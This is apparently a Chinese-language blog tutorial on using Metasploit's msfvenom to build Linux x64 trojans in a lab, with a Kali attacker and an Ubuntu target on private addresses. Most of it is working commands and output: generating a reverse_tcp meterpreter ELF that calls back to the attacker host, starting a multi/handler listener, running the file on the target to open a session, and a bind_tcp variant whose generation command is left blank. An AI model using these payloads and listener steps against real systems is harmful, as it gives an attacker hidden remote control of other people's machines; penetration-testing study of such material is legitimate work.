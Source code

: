 ```yaml
---
layout: post
title: 使用 Msfvenom 生成Ubuntu 64位木马（反向连接、正向连接）
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# docker 安装 msf

创建容器：
```
docker run -it -d --name msf -p 1234:1234 linuxkonsult/kali-metasploit
```

进入容器：
```
docker exec -it id /bin/bash
```
# 0x01 环境

攻击机：Kali Linux 2020.1 172.16.252.129
靶机：Ubuntu 16.04 172.16.252.138

##查看当前系统的位数

```[root@localhost ~]# getconf LONG_BIT```


## 生成反向连接木马

使用kali自带的Msfvenom工具生成木马。
查看有哪些linux下的载荷：
```
msfvenom -l payloads | grep linux
```

针对Ubuntu 64位靶机，使用linux/x64/meterpreter/reverse_tcp载荷，并指定反弹连接的IP和端口，生成elf类型的木马：

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.252.129 LPORT=1234 -f elf > shell.elf

```


打印以下信息：
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

```

在当前目录已经生成了shell.elf文件。

### 打开监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
set lhost 172.16.252.129
set lport 1234
run
```

### 运行木马

修改之前生成的shell.elf属性为可执行：
```
chmod a+x shell.elf
```
将其拷贝到靶机Ubuntu 16.04中运行：


```
./shell.elf
```

这时kali端打印出：
```
[*] Started reverse TCP handler on 172.16.252.129:1234 
[*] Sending stage (3021284 bytes) to 172.16.252.138
[*] Meterpreter session 2 opened (172.16.252.129:1234 -> 172.16.252.138:56384) at 2020-04-20 07:04:26 -0400
```

## 正向连接木马

类似上面的反向连接木马，可以使用bind_tcp载荷，开启正向连接木马。和反向连接的区别在于：
反向连接木马是**攻击机开放端口**，靶机连过来；
正向连接木马是**靶机开放端口**，攻击机连过去；

生成木马：


放到靶机上运行：

./bindtcp.elf

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 172.16.252.138
set lport 4444
run
```

成功建立连接：
![成功建立连接：](https://img-blog.csdnimg.cn/20200422103852243.png)


# 参考

[msfvenom生成payload命令+内网透到外网](https://www.cnblogs.com/youyouii/p/10013590.html)